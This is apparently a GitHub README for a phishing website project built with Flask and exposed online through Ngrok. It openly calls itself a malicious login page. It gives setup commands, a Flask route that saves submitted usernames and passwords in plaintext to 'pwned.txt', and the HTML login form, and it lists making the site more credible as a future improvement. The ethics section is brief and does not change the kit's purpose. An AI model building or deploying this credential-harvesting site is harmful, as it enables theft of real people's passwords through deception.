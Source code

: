 # Project: Phishing website using Flask and Ngrok

## Overview
This repository contains a Flask-based website that implements a simple login functionality. The website allows users to submit login credentials through a web interface and processes the data on the backend. The website is deployed online using Ngrok. This project serves as an example on how to gather user information through a malicious web page login form that saves user data into a local text file.

## Features
- **Frontend:** A simple HTML interface for user login.
- **Backend:** Flask website handling routing and processing login credentials.
- **Logging:** Captures and stores submitted login credentials in a local file (`pwned.txt`).
- **Deployment:** Uses Ngrok to expose the Flask website to the internet.

---

## Project Structure
```
project-directory/
├── static/          # CSS, JavaScript, and other static files
├── templates/       # HTML files (index.html, login.html)
├── server.py        # Main Flask website
├── pwned.txt        # File for logging submitted credentials
└── README.md        # Documentation
```

### File Details
- **`index.html`**: The main landing page for the website.
- **`login.html`**: Contains the login form where users can enter their credentials.
- **`server.py`**: Python script for:
  - Rendering the HTML pages.
  - Handling login form submissions.
  - Writing submitted credentials to `pwned.txt`.
- **`pwned.txt`**: Stores the username and password entries submitted by users.

---

## Setup and Installation

### Prerequisites
- Python (3.12 or above)
- Ngrok (to expose the Flask app online)

### Steps
1. Clone the repository:
   ```bash
   git clone [https://github.com/your-repo-url.git](https://github.com/elvishaveriku/Phishing_Website_Project.git)
   cd phishing_website_project
   ```

2. Install the required Python packages:
   ```bash
   pip install flask
   ```

3. Run the Flask website:
   ```bash
   python server.py
   ```

4. Start Ngrok to expose the website:
   ```bash
   ngrok http 5000
   ```
   Copy the public URL generated by Ngrok.

6. Access the website in your browser using the Ngrok URL.

---

## Code Highlights

### Flask Routes
- **Index Route (`/`)**:
  Serves the `index.html` page.
  ```python
  @app.route('/')
  def index():
      return render_template('index.html')
  ```

- **Login Page (`/login.html`)**:
  Serves the `login.html` page.
  ```python
  @app.route('/login.html')
  def login():
      return render_template('login.html')
  ```

- **Login Submission (`/login`)**:
  Handles the login form submission and logs credentials.
  ```python
  @app.route('/login', methods=['POST'])
  def handle_login():
      username = request.form.get('username')
      password = request.form.get('password')

      with open('pwned.txt', 'a') as file:
          file.write(f"Username: {username}, Password: {password}\n")

      if username == 'admin' and password == 'password123':
          return jsonify({'message': 'Login successful!'}), 200
      else:
          return jsonify({'message': 'Invalid credentials.'}), 400
  ```
  
---

## Frontend Implementation

### HTML Structure
The frontend consists of two HTML pages: `index.html` and `login.html`. Both are located in the `templates/` directory.

#### `index.html`
A simple landing page with navigation links.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home Page</title>
</head>
<body>
    <header>
        <h1>Welcome to the Web App</h1>
    </header>
    <nav>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/login.html">Login</a></li>
        </ul>
    </nav>
</body>
</html>
```

#### `login.html`
A form for users to submit login credentials.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>
<body>
    <header>
        <h1>Login</h1>
    </header>
    <main>
        <form id="loginForm" action="/login" method="POST">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <button type="submit">Login</button>
        </form>
    </main>
</body>
</html>
```

---

## Ethical Considerations
Logging sensitive user information is for demonstration purposes only. Do not deploy such functionality in production without proper security measures, including encryption and user consent.

---

## Future Improvements
- Increasing the credibility of the website

---

## Author
[Elvis Haveriku] - Cybersecurity enthusiast and passionate about web technologies and Python programming.


